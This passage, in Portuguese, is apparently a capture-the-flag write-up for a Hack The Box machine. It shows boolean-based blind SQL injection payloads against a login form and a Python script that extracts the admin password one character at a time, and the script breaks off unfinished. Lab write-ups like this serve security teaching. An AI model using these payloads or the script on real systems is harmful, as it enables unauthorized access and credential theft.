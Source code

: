 Ao tentar por **"admin' and sleep(5)"**, temos um erro diferente: **"Hacking Attempt Detected!"**. UHUUU O FBI NOS DETECTOU LOOOL...Bem, isto parece um tipo de filtro a palavar chaves, porque ao escrever apenas e só a palavra **"sleep"** ou **"union"**, optemos o mesmo erro...

Como não vemos nada, mas sabemos como são de uma maneira geral feitas as bases de dados, podemos tentar descobrir o nome da coluna. Ao escrever **admin' and substring(username,1,1)='a'-- -**, estamos a dizer que, para o usuário _admin_, queremos saber se na coluna de nome _username_, a letra positionada na 1ª posição é igual a _'a'_. E isso já nós sabemos. **_admin_** começa pela letra **_'a'_**.

```txt
admin' and substring(username,1,1)='a'-- -
```

Obtemos a mesma mensagem de erro (Wrong identification : admin), e se pusermos qualquer outra letra, obtemos outro erro (Try again..) por a primeira letra não corresponder. Isso é muito bom sinal...

```txt
admin' and substring(username,2,1)='d'-- -
```

Ao testar para o segundo caractere, obtemos o mesmo resultado, apenas optemos (Wrong identification : admin) quando acertamos na letra **_'d'_**. Mas porquê "Wrong identification : admin"? A query no código php deve estar a fazer uma comparação, entre admin e admin, e nós adicionamos 'and substring(username,1,1)='a'. Só passa para a verificação seguinte se o "admin" existir, **e se** "a sua primeira letra for 'a'". Depois de validar o campo user, fica barrado pela password, pois não a temos... Então, quando acerto na substring, vai me responder "Wrong identification". Posto isso, podemos enumerar todos os campos de todas as tabelas da base de dados desta forma. O único problema é que não temos ideia do nome dessas tabelas nem das suas colunas... Mas também não persisamos saber tudo! Basta-nos a password! Seguindo o mesmo princípio, podemos tentar com o nome de coluna password (por ser comum e normal de ser chamdo assim): **admin' and substring(password,1,1)='0...1...2...3...até...ao...z'-- -**. Manualmente, iria ser possível, mas apenas com 3 litros de café e pausas de 2 em 2 horas! Vamos automatizar isso em python:

```python
import requests
import re
from pwn import log


def sendRequest(code):
	url = "http://falafel.htb/login.php"
	header = {"Cookie": "PHPSESSID=0tpuo9bnh5jo18ibamo44q3ej0"}
	data = {"username": code, "password": "password"}

	res = requests.post(url, headers=header, data=data).text
	res = res.replace("\n", " ").replace("\t", " ")
	regexPattern = r"<br>(.*?)</br>"
	res = re.findall(regexPattern, res)[0].strip()
	return res


def getPassword(username):
	l1 = log.progress(username)
	password = ""
	chars = "0123456789abcdefghijklmnopqrstuvwxyz"
	continueSearching = True
	for position in range(1, 100):
		if continueSearching:
			for char in chars:
				code = f"{username}' and substring(password,{position},1)='{char}'-- -"
				if "Wrong identification" in sendRequest(code):
					password += char
					l1.status(password)
					break
				if char == "z":
					continueSearching = False

```